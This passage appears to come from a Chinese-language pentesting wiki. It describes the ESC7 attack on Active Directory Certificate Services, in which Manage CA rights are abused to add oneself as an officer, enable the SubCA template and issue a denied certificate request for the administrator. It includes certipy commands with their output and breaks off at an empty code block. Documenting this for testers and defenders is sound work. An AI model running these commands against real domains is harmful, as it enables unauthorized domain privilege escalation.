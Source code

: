 #### Explanation

> [!WARNING]
> 在**之前的攻击**中，**`Manage CA`** 权限被用来**启用** **EDITF_ATTRIBUTESUBJECTALTNAME2** 标志以执行 **ESC6 攻击**，但这在 CA 服务 (`CertSvc`) 重启之前不会有任何效果。当用户拥有 `Manage CA` 访问权限时，用户也被允许**重启服务**。然而，这**并不意味着用户可以远程重启服务**。此外，由于 2022 年 5 月的安全更新，**ESC6 可能在大多数已修补的环境中无法正常工作**。

因此，这里提出了另一个攻击。

前提条件：

- 仅需 **`ManageCA` 权限**
- **`Manage Certificates`** 权限（可以从 **`ManageCA`** 授予）
- 证书模板 **`SubCA`** 必须**启用**（可以从 **`ManageCA`** 启用）

该技术依赖于拥有 `Manage CA` _和_ `Manage Certificates` 访问权限的用户可以**发出失败的证书请求**。**`SubCA`** 证书模板**易受 ESC1 攻击**，但**只有管理员**可以注册该模板。因此，**用户**可以**请求**注册 **`SubCA`** - 这将被**拒绝** - 但**随后由管理员发放**。

#### Abuse

您可以通过将您的用户添加为新官员来**授予自己 `Manage Certificates`** 访问权限。
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'John' on 'corp-DC-CA'
```
**`SubCA`** 模板可以通过 `-enable-template` 参数在 CA 上启用。默认情况下，`SubCA` 模板是启用的。
```bash
# List templates
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
## If SubCA is not there, you need to enable it

# Enable SubCA
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-DC-CA'
```
如果我们满足了此攻击的前提条件，我们可以开始**请求基于 `SubCA` 模板的证书**。

**此请求将被拒绝**，但我们将保存私钥并记录请求 ID。
```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```
通过我们的 **`Manage CA` 和 `Manage Certificates`**，我们可以使用 `ca` 命令和 `-issue-request <request ID>` 参数 **发布失败的证书** 请求。
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
最后，我们可以使用 `req` 命令和 `-retrieve <request ID>` 参数 **检索已发放的证书**。
```bash
```